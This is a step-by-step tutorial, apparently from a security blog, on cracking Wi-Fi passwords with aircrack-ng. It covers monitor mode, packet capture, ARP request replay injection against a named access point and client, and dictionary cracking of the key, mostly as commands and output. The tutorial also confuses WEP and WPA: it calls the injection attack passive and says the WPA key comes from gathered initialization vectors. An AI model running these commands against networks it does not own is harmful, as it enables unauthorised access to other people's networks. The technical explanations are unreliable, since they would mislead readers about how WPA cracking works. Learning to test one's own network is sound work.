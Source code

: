# Wi-Fi cracking with aircrack-ng

[Aircrack-ng](https://aircrack-ng.org/) is basically a network software suite that has been crafted to achieve the following objectives:

* packet sniffing
* attacking (replay attacks, deauthentication, fake access points...) via packet injection
* testing Wi-Fi cards and driver capabilities (capture and injection)
* cracking WEP and WPA/WPA2 Wi-Fi routers

Note that the present tutorial is not an exhaustive guide, rather it is intended to build some basic skills to test your own network's security and get familiar with the concepts.

The attack outlined below is based on a passive technique (ARP request replay attack) and it focuses on debian-based distributions assuming you have a working wireless card with drivers already patched for injection.

## Aircrack-ng installation

Aircrack-ng can be installed on a debian-based operative system by compiling the source code (for more details you can visit the [official website](https://aircrack-ng.org/)).

### Installing required and optional dependencies

Below you can find instructions for installing the basic requirements to build aircrack-ng for Debian-based operative systems.

```
$ sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

Get the latest copy of aircrack-ng:

```
$ git clone https://github.com/aircrack-ng/aircrack-ng
$ cd aircrack-ng
```

### Compiling and installing

To build aircrack-ng, the Autotools build system is used.
First, `./configure` the project for building with the appropriate options:

```
$ autoreconf -i
$ ./configure --with-experimental
```

Next, compile the project with the `make` command and use the "installing" target from the additional targets listed below to complete the installation.

 * Execute all unit testing: `make check`
 * Execute all integration testing (requires root): `make integration`
 * Installing: `make install`
 * Uninstall: `make uninstall`

## Test wireless device packet injection

The purpose of this step ensures that your card successfully supports injection.
Assuming your interface name is "wlan0" (you can retrieve it typing `iwconfig` on the terminal), type the following command:

```
# aireplay-ng --test wlan0
```

The system responds:

```
18:10:59  wlan0 channel: 10
18:10:59  Trying broadcast probe requests...
18:10:59  Injection is working!
18:11:00  Found 1 AP
...
```

This confirms your card can inject packets.

## Simple sniffing and cracking

### 1. Start the wireless interface in monitor mode

The first thing to do is looking out for a potential target putting your wireless card into monitor mode using `airmon-ng`. However, it is strongly recommended to `kill` all interfering processes prior to using the aircrack-ng suite.

```
# airmon-ng check kill
Killing these processes:

  PID Name
  870 dhclient
 1115 wpa_supplicant
```

Then, it is possible to enable the monitor mode used to create another interface (mon0):

```
# airmon-ng start wlan0

PHY         Interface       Driver         Chipset

phy0        wlan0           ath9k          Qualcomm Atheros AR9485
                               (monitor mode enabled for [phy0]wlan0 on [phy0]mon0)
```

You will notice that "wlan0" has successfully been put into monitor mode.
Then, start `airodump-ng` to look out for networks:

```
# airodump-ng mon0
```

Locate the wireless network you want to crack, and note its BSSID and channel from the following output:

```
CH 10 ][ Elapsed: 36 s][2019-05-15 18:15
BSSID              PWR  RXQ  Beacons  #Data,  #/s  CH  MB  ENC  CIPHER AUTH ESSID
08:00:BF:E6:31:2E  -21  100     5240  178307  338  10  54  WPA  CCMP   PSK  infosec_router
...
```

Note that the top part of the output lists information about APs in range, and the bottom part lists clients connected to the corresponding APs.

### 2. Start airodump-ng to capture the initial vectors

Open another console session to capture the initial vectors generated by the target and to save the result into a file:

```
# airodump-ng -c 10 --bssid 08:00:BF:E6:31:2E -w output-file mon0
```

where `-c 10` is the channel for the wireless network, `--bssid 08:00:BF:E6:31:2E` is the MAC address of the AP, `-w output-file` defines the output files that will contain the initialization vectors, and `mon0` is the interface name.

The system responds:

```
CH 10 ][ Elapsed: 12 s][2019-05-15 18:16
BSSID              PWR  RXQ  Beacons  #Data,  #/s  CH  MB  ENC  CIPHER AUTH ESSID
08:00:BF:E6:31:2E  -21  100     5240  178307  338  10  54  WPA  CCMP   PSK  infosec_router

BSSID              STATION            PWR  Lost  Packets  Probes
08:00:BF:E6:31:2E  00:0F:35:51:AC:22  -21     0   183782
```

After the execution of the command various files will be generated.

### 3. Start aireplay-ng in ARP request replay mode

The classic ARP request replay attack is the most effective way to generate new initialization vectors, and works very reliably. The purpose of this step is to start `aireplay-ng` in a mode which listens for ARP requests then reinjects them back to the access point.
Keep your `airodump-ng` and `aireplay-ng` running, open another terminal and run the ARP request replay attack:

```
# aireplay-ng --arpreplay -b 08:00:BF:E6:31:2E -h 00:0F:35:51:AC:22 mon0

Saving ARP requests in replay_arp-0321-191525.cap
You should also start airodump-ng to capture replies.
Read 618643 packets (got 304896 ARP requests), sent 194947 packets...
```
You can check if the packets are injected by looking at the `airodump-ng` screen.

### Run aircrack-ng to obtain the WPA key

At this point, you should be able to obtain the WPA key from the initialization vectors gathered in the previous steps.
Open another console session and type:

```
# aircrack-ng -b 08:00:BF:E6:31:2E -w wordlist.txt output*.cap
```

where `-w wordlist.txt` refers to your own dictionary wordlist and `output*.cap` selects all output files with `.cap` extension.

This is the output of a successful attack:

```
                        Aircrack-ng 1.5.2
[00:00:00] 192/1229 keys tested (520.04 k/s)

Time left: 0 seconds                                      15.62%

                     KEY FOUND! [ notsecure ]

Master Key     : 42 28 5E 5A 73 33 90 E9 34 CC A6 C3 B1 CE 97 CA
                 06 10 96 05 CC 13 FC 53 B0 61 5C 19 45 9A CE 63

Transient Key  : 86 D0 43 C9 AA 47 F8 03 2F 71 3F 53 D6 65 F3 F3
                 86 36 52 0F 48 1E 57 4A 10 F8 B6 A0 78 30 22 1E
                 4E 77 F0 5E 1F FC 73 69 CA 35 5B 54 4D B0 EC 1A
                 90 FE D0 B9 33 06 60 F9 33 4B CF 30 B4 A8 AE 3A

EAPOL HMAC     : 8E 52 1B 51 E8 F2 7E ED 95 F4 CF D2 C6 D0 F0 68
```

### Disclaimer

This tutorial has been made for educational purposes only, I don't promote malicious practices and I will not be responsible for any illegal activities.
